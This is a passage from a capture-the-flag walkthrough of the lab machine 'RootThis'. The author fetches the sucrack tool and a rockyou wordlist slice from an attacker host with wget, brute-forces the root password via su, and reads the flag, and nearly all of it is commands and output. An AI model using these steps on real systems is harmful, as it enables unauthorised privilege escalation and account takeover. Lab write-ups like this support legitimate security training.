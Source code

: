 We can use `SimpleHTTPServer` from `Python` to get it into victim machine. 

```text
root@kali:~/Downloads/sucrack-1.2.3/src# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.0.0.7 - - [26/Feb/2019 04:09:44] "GET /sucrack HTTP/1.1" 200 -
```

Using `wget`. 

```text
www-data@RootThis:/tmp$ wget 10.0.0.5:8000/sucrack
--2019-02-26 04:09:44--  http://10.0.0.5:8000/sucrack
Connecting to 10.0.0.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 86048 (84K) [application/octet-stream]
Saving to: 'sucrack'

sucrack             100%[===================>]  84.03K  --.-KB/s    in 0s      

2019-02-26 04:09:44 (283 MB/s) - 'sucrack' saved [86048/86048]
```

Now let's just `head` first 300 lines from `rockyou.txt`, once again use `SimpleHTTPServer` to get it into our target. 

```text
root@kali:~/Downloads# head -300 /usr/share/wordlists/rockyou.txt > smallrock.txt
root@kali:~/Downloads# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Just like that. 

```text
www-data@RootThis:/tmp$ wget 10.0.0.5:8000/smallrock.txt
--2019-02-26 04:13:01--  http://10.0.0.5:8000/smallrock.txt
Connecting to 10.0.0.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2335 (2.3K) [text/plain]
Saving to: 'smallrock.txt'

smallrock.txt       100%[===================>]   2.28K  --.-KB/s    in 0s      

2019-02-26 04:13:01 (217 MB/s) - 'smallrock.txt' saved [2335/2335]
```

And we're ready to start cracking.

```text
www-data@RootThis:/tmp$ chmod +x sucrack
www-data@RootThis:/tmp$ export SUCRACK_SU_PATH=/bin/su
www-data@RootThis:/tmp$ export SUCRACK_AUTH_FAILURE="su: Authentication failure"
www-data@RootThis:/tmp$ ./sucrack -u root -w 4 smallrock.txt 
password is: 789456123
```

After finding password, last step is to `su` into `root` account and get the flag. 

```text
www-data@RootThis:/tmp$ su root
Password: 
root@RootThis:/tmp# cat /root/flag.txt 
Congratulations!

flag: a67d764105005a6a95a9c8c03bc95710bc396dccc4364704127170637b2bd39d
```